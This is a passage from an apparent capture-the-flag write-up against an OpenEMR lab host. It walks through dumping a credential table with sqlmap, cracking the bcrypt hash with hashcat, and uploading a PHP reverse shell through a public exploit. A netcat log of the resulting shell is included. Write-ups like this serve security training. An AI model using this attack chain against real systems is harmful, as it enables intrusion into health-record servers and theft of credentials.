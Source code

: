 ```
| ccda_sections              |
| ccda_table_mapping         |
| chart_tracker              |

--snip--
```

we get a pretty long list of tables and I try to dump the contents of the one that I found interesting. I finally get a usefull one named "users_secure". So I dump its contents with `python sqlmap -r requestFile -D openemr -T users_secure --dump`

we get this

```
Database: openemr
Table: users_secure
[1 entry]
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+

```

we have a username and a hash of a password now. For simple hashes I just use crackstation.net but for complex ones that use a salt I have to use hashcat. First I figure out the type of hash. I use the man page of hashcat and judging from the pattern I see it is a "bcrypt $2*$, Blowfish" hash with mode number 3200. All that is left is cracking, I use the rockyou.txt wordlist.

`hashcat -a 0 -m 3200 Filewiththehash rockyou.txt`

-a 0 tells to use wordlist type of attack, -m 3200 tells about the mode/type of hash , Filewiththehash is self-explainatory and last parameter is the wordlist.

we get the password "xxxxxx" and the user "openemr_admin". At first I was confused that why is the password censored? And turns out that I am a dumbass. The password was literally "xxxxxx".

Now that we have a set of credentials we can use the [exploit](https://www.exploit-db.com/exploits/48515) we found earlier. Replace all the "localhost" in the script with "hms.htb" and edit the credentials. The script is easy to understand. we just upload a php reverse shell and start a netcat listener. When we browse to the php shell we get a connection back.

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from hms.htb 32876 received!
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:22:10 up  3:14,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
